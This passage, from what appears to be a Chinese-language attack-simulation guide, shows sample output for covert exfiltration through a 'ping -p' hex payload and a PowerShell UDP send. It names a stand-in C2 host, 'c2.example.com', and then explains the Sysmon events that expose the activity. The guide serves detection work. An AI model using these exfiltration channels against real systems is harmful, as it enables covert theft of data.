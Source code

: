 4. **清理**  
   - 终止脚本：
     ```powershell
     Stop-Process -Name powershell -Force
     ```

### 示例输出
```cmd
ping -p 41424344 127.0.0.1 -n 1
Pinging 127.0.0.1 with 32 bytes of data:
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
```

```powershell
$client.Send($data, $data.Length, "127.0.0.1", 12345)
10
```

**注意**：测试需在合法授权环境进行，替换`c2.example.com`为测试服务器。

## 日志解析

- **Sysmon日志（事件ID 1，进程创建）**：
  ```plaintext
  EventID: 1
  UtcTime: 2025-06-10 03:10:00.123
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ab}
  ProcessId: 12345
  Image: C:\Windows\System32\ping.exe
  CommandLine: ping -p 41424344 127.0.0.1 -n 1
  ParentImage: C:\Windows\System32\cmd.exe
  User: CONTOSO\User
  IntegrityLevel: High
  ```

- **Sysmon日志（事件ID 3，网络连接）**：
  ```plaintext
  EventID: 3
  UtcTime: 2025-06-10 03:10:00.234
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ab}
  Image: C:\Windows\System32\ping.exe
  DestinationIp: 127.0.0.1
  Protocol: icmp
  User: CONTOSO\User
  ```

- **Sysmon日志（事件ID 3，UDP连接）**：
  ```plaintext
  EventID: 3
  UtcTime: 2025-06-10 03:10:00.345
  ProcessGuid: {abcdef12-3456-7890-abcd-ef1234567890}
  Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  DestinationIp: 127.0.0.1
  DestinationPort: 12345
  Protocol: udp
  User: CONTOSO\User
  ```
